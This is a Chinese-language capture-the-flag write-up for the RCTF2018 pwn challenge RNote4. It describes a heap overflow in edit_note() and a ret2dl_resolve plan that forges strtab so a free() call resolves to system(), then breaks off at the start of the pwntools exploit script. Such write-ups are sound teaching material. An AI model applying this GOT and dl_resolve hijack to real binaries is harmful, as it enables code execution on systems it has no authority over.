 # Rnote4 #
## 1.题目分析 ##
在edit_note()函数中存在简单粗暴的堆溢出漏洞，关键在于如何利用，程序无任何能泄露地址的地方。  
存在漏洞点如下图所示:  
![漏洞点](https://raw.githubusercontent.com/fade-vivida/CTF/master/RCTF2018/Pwn/RNote4/picture/1.PNG)  
保护机制中，No PIE，No RELRO。
## 2.漏洞利用 ##
可以发现程序没有开启基地址随机化，并且可覆写GOT表。因此考虑采用dl_resolve改写free_got为system地址，然后调用free函数，实现利用。
### 2.1 改写ELF文件头的dynamic节的strtab字段 ###
改写strtab字段值为一个可控的内存区域。
### 2.2 伪造strtab ###
改写strtab中"free"字符串偏移处为"system"。
### 2.3 改写free_got ###
改写free\_got为free\_plt+0x6，使其执行dl_resolve。
## 3.expolit代码 ##
    from pwn import *
    from ctypes import *
    import os
    #import roputils as rop
    
    remote_addr = "rnote4.2018.teamrois.cn"
    remote_port = 6767
    local_addr = "127.0.0.1"
    local_port = 1807
    
    pc = "./RNote4"
    pwn_elf = ELF(pc)
    
    uselibc = 2 #0 for no,1 for i386,2 for x64
    local = 0
    haslibc = 0
    atta = 0
    
    if uselibc == 2:
    	context.arch = "amd64"
    else:
    	context.arch = "i386"
    